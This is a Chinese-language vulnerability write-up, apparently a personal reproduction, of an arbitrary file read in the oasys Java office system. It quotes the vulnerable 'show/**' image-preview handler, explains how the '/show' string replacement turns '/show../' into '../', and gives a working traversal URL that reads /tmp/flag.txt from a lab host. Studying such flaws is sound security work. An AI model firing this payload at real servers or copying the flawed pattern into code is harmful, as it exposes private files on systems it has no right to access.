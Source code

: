 这个直接参考的https://xz.aliyun.com/t/11993

直接复现一下吧



两个漏洞点一样：

src/main/java/cn/gson/oasys/controller/user/UserpanelController.java

src/main/java/cn/gson/oasys/controller/process/ProcedureController.java





代码大概意思是：首先通过getRequestURI方法获取当前访问的相对路径，然后如果路径中存在`/show`，则将该路径中的`/show`替换为空。接下来与rootpath拼接然后通过File打开文件后返回前端。

```java
		/**
		 * 图片预览
		 * @param response
		 * @param fileid
		 */
		@RequestMapping("show/**")   //表示匹配以 /show 为前缀的所有请求，其中 /** 表示任意路径
		public void image(Model model, HttpServletResponse response, @SessionAttribute("userId") Long userId, HttpServletRequest request)
				throws IOException {

			String startpath = new String(URLDecoder.decode(request.getRequestURI(), "utf-8"));  //获取URI路径,并解码
			
			String path = startpath.replace("/show", "");  // 将/show替换为空，那么：..show/..show/..show/..show../666.txt   就会替换为../../../../666.txt
			
			File f = new File(rootpath, path);
			System.out.println(f.getAbsolutePath());
			ServletOutputStream sos = response.getOutputStream();   //获取响应对象的输出流，用于向浏览器发送图片数据
			FileInputStream input = new FileInputStream(f.getPath());  //创建了一个文件输入流，用于读取图片文件的内容
			byte[] data = new byte[(int) f.length()];
			IOUtils.readFully(input, data);   // 读取文件，内容读取到字节数组中
			// 将文件流输出到浏览器
			IOUtils.write(data, sos);
			input.close();
			sos.close();
		}
```

所以，我们只需构造 /show../ 即可替换成 ../ ，最终实现任意文件读取漏洞

```
http://192.168.3.214/show//show..//show..//show..//show..//show..//show..//show..//show..//show..//show../tmp/flag.txt
```



![image-20240707153838881](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/typora/image-20240707153838881.png)
